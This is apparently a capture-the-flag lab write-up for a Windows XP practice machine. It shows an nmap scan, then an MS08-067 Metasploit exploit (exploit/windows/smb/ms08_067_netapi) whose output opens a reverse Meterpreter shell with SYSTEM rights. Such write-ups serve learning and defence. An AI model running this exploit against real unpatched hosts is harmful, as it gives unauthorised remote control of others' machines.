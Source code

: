 # Legacy Write-up

\# BlueBrain

## Enumeration

### Nmap

```
nmap -T4 -A -v 10.10.10.4
```

Nmap reveals that SMB is open, and also identifies the operating system as Windows XP.

## Exploitation

Some searching turns up with CVE-2008-4250, which also has a Metasploit module available for it. Running the module immediately grants a root shell.

Note: in some cases the module target must be set for the exploit to work. If so, Windows XP SP3 English is the correct target.

Module: exploit/windows/smb/ms08_067_netapi

```
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.16.12:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.16.12:4444 -> 10.10.10.4:1035) at 2024-05-26 14:21:32 -0400

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```